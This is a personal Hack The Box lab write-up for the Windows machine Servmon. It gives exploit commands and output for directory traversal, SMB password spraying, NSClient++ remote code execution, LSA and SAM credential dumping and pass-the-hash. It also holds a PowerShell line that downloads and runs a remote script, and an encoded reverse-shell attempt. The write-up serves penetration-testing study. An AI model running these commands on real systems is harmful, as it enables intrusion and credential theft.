

---
tags:
  - hack
  - windows
---
# HTB: [Servmon](https://app.hackthebox.com/machines/Servmon)

These are my own lightly-edited notes, and not necessarily a detailed walk-through.

## Summary

Anonymous FTP leaks some clues for where to find a file. An LFI vulnerability in the web application allows retrieving the file, which leaks a valid password. A an admin password for NSClient++ is leaked in the config file readable by that user. An authenticated RCE exploit for NSClient++ grants limited Administrator access, which is enough for the system flag although AMSI is enabled so a full compromise will require a bit more work.

## Services

### TCP

- Target: `servmon.htb 10.10.10.184`
- Command: `nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oA nmap_tcp-servmon.htb servmon.htb

#### 21/tcp-ftp `Microsoft ftpd`

```text
__ftp-anon:
Anonymous FTP login allowed (FTP code 230)
02-28-22  07:35PM       <DIR>          Users
__ftp-syst:
  SYST: Windows_NT
```

Some sensitive files are available via anonymous FTP:

```console
$ ftp servmon.htb
Connected to servmon.htb.
220 Microsoft FTP Service
Name (servmon.htb:e): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
229 Entering Extended Passive Mode (|||49686|)
150 Opening ASCII mode data connection.
02-28-22  07:35PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49687|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM       <DIR>          Nadine
02-28-22  07:37PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd Nadine
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49688|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  168 Confidential.txt
226 Transfer complete.
ftp> get Confidential.txt
local: Confidential.txt remote: Confidential.txt
229 Entering Extended Passive Mode (|||49689|)
150 Opening ASCII mode data connection.
100% |*******************************************************************************************************************************|   168        1.83 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 6 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
168 bytes received in 00:00 (1.83 KiB/s)
ftp> cd ../Nathan
250 CWD command successful.
ftp> ls
229 Entering Extended Passive Mode (|||49690|)
125 Data connection already open; Transfer starting.
02-28-22  07:36PM                  182 Notes to do.txt
226 Transfer complete.
ftp> get "Notes to do.txt"
local: Notes to do.txt remote: Notes to do.txt
229 Entering Extended Passive Mode (|||49691|)
125 Data connection already open; Transfer starting.
100% |*******************************************************************************************************************************|   182        2.03 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 4 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
182 bytes received in 00:00 (2.03 KiB/s)
```

```text
$ cat Notes\ to\ do.txt
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

```text
$ cat Confidential.txt
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

#### 22/tcp-ssh `OpenSSH` `for_Windows_8.0` `(protocol 2.0)`

```text
__ssh-hostkey:
  3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
  256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
```

#### 80/tcp-http

```text
__http-methods:
  Supported Methods: GET HEAD POST OPTIONS
__http-favicon:
Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
__fingerprint-strings:
  GetRequest, HTTPOptions, RTSPRequest:
    HTTP/1.1 200 OK
    Content-type: text/html
    Content-Length: 340
    Connection: close
    AuthInfo:
    <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
    <html xmlns="http://www.w3.org/1999/xhtml">
    <head>
    <title></title>
    <script type="text/javascript">
    window.location.href = "Pages/login.htm";
    </script>
    </head>
    <body>
    </body>
    </html>
  NULL:
    HTTP/1.1 408 Request Timeout
    Content-type: text/html
    Content-Length: 0
    Connection: close
    AuthInfo:
__http-title:
Site doesn't have a title (text/html).
```

`http://servmon.htb/Pages/login.htm`:



#### 8443/tcp-https-alt

```text
__http-title:
NSClient++
Requested resource was /index.html
__http-methods:
  Supported Methods: GET
__ssl-date:
TLS randomness does not represent time
__fingerprint-strings:
  FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions:
    HTTP/1.1 404
    Content-Length: 18
    Document not found
  GetRequest:
    HTTP/1.1 302
    Content-Length: 0
    Location: /index.html
    workers
    jobs
__ssl-cert:
Subject: commonName=localhost
Issuer: commonName=localhost
Public Key type: rsa
Public Key bits: 2048
Signature Algorithm: sha1WithRSAEncryption
Not valid before: 2020-01-14T13:24:20
Not valid after:  2021-01-13T13:24:20
MD5:   1d03:0c40:5b7a:0f6d:d8c8:78e3:cba7:38b4
SHA-1: 7083:bd82:b4b0:f9c0:cc9c:5019:2f9f:9291:4694:8334
```

This is NSClient++.

## Remote Code Execution

This [CVE-2019-20085 PoC](https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py) works:

```console
$ python3 nvms.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt x.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

One hit:

```console
$ nxc smb servmon.htb -u ./u.txt -p ./p.txt --continue-on-success
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE
```

Credentials: `nadine:L1k3B1gBut7s@W0rk`

SSH is running, so that works for login:

```text
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine

nadine@SERVMON C:\Users\Nadine>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

## Privilege Escalation

```powershell
PS C:\Users\Nadine> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/wp.ps1')"
...
```

```powershell
PS C:\Program Files\NSClient++> cat .\nsclient.ini
...
; Undocumented key
password = ew2x6SsGTxjRwXOT
...
```

[NSClient++](https://nsclient.org/docs/) is a process monitor. Originally it was a Nagios thing but it's now a more generic component.

This may be vulnerable to <https://www.exploit-db.com/exploits/48360>, "NSClient++ 0.5.2.35 - Authenticated Remote Code Execution".

NSClient++ is running on port 8443. But, this fails if I hit the port directly:

```console
$ python3 x.py -t servmon.htb -P 8443 -p ew2x6SsGTxjRwXOT -c 'net localgroup administrators nadine /add'
[!] Targeting base URL https://servmon.htb:8443
[!] Obtaining Authentication Token . . .
[-] Error obtaining auth token, is your password correct? Hit error at: /auth/token
```

So, I setup LigoloNG and try it from the inside:

```console
$ python3 x.py -t 240.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'net localgroup administrators nadine /add'
[!] Targeting base URL https://240.0.0.1:8443
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Enabling External Scripts Module . . .
[!] Configuring Script with Specified Payload . . .
[+] Added External Script (name: BXABhHYHoZkp)
[!] Saving Configuration . . .
[!] Reloading Application . . .
[!] Waiting for Application to reload . . .
[!] Obtaining Authentication Token . . .
[+] Got auth token: frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ
[!] Triggering payload, should execute shortly . . .
```

It works:

```powershell
PS C:\Users\Nadine> net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
Nadine
The command completed successfully.
```

I had a hard time getting an admin shell, even given the success above. For example, I suspect there's some AV on this target (Defender, etc.) because any reverse shell payloads get removed from the disk right away. A lot of the CIM queries fail for insufficient access. I can't trigger an NTLM callback to `responder`, for some reason.

So, I decide I need the Administrator's hash.

```console
$ nxc smb servmon.htb -u nadine -p 'L1k3B1gBut7s@W0rk' --lsa
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [+] Dumping LSA secrets
SMB         10.10.10.184    445    SERVMON          SERVMON\Nathan:To0M4nyS4ndw1ch35
SMB         10.10.10.184    445    SERVMON          dpapi_machinekey:0x5029be2d110d061e856496ac6c10595d5f75cf27
dpapi_userkey:0xeae6f93f35f9668e366a959938c97e4a8b54cfc2
SMB         10.10.10.184    445    SERVMON          NL$KM:73629c30538cac86add0035b666feaed318455b9def82ca6d513ce4a8d889e19cb76dd9ccc1e5e3d790c072dd348a8eeec511dd9a90ee06004521b82299d6d48
SMB         10.10.10.184    445    SERVMON          [+] Dumped 3 LSA secrets to /home/e/.nxc/logs/SERVMON_10.10.10.184_2024-09-30_094424.secrets and /home/e/.nxc/logs/SERVMON_10.10.10.184_2024-09-30_094424.cached
```

Still no Administrator. I try SAM:

```console
$ nxc smb servmon.htb -u nadine -p 'L1k3B1gBut7s@W0rk' --sam
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [*] Dumping SAM hashes
SMB         10.10.10.184    445    SERVMON          Administrator:500:aad3b435b51404eeaad3b435b51404ee:c8bbef7fd5afe37cbb1aee2264a75fee:::
...
```

There it is!

```console
$ nxc smb servmon.htb -u administrator -H 'c8bbef7fd5afe37cbb1aee2264a75fee' --get-file '/users/administrator/desktop/root.txt' root.txt
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\administrator:c8bbef7fd5afe37cbb1aee2264a75fee (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [*] Copying "/users/administrator/desktop/root.txt" to "root.txt"
SMB         10.10.10.184    445    SERVMON          [+] File "/users/administrator/desktop/root.txt" was downloaded to "root.txt"

$ cat root.txt
25650b...
```

That's the system flag, but I still feel like I haven't really owned the machine. Reverse shell attempts still fail:

```console
$ nxc smb servmon.htb -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:c8bbef7fd5afe37cbb1aee2264a75fee' -X 'powershell -e aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgAxAC8AYwBvAG4AcAB0AHkAcwBoAC0ANAA0ADMALgBwAHMAMQAgAC0AdQBzAGUAYgBhAHMAaQBjAHAAYQByAHMAaQBuAGcAKQAKAA=='
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\administrator:c8bbef7fd5afe37cbb1aee2264a75fee (Pwn3d!)
SMB         10.10.10.184    445    SERVMON          [-] Command execution blocked by AMSI
```

But, at least that confirms it's AMSI.

## Post-exploitation

Notes:

- I didn't need to use LigoloNG here, I could have just forwarded the port via SSH since it was running on this Windows target.
- The NSClient++ password was also available via: `nscp web -- password --display`
- See [0xdf's walk-through](https://0xdf.gitlab.io/2020/06/20/htb-servmon.html) for how to manually exploit the NSClient++ vulnerability.

## Open Questions

Unresolved issues encountered while attacking this target.

- I'd like to learn more about bypassing AMSI, but since I'm focused on the OSCP and can safely ignore all AV countermeasures for now, I'll have to come back to this later.
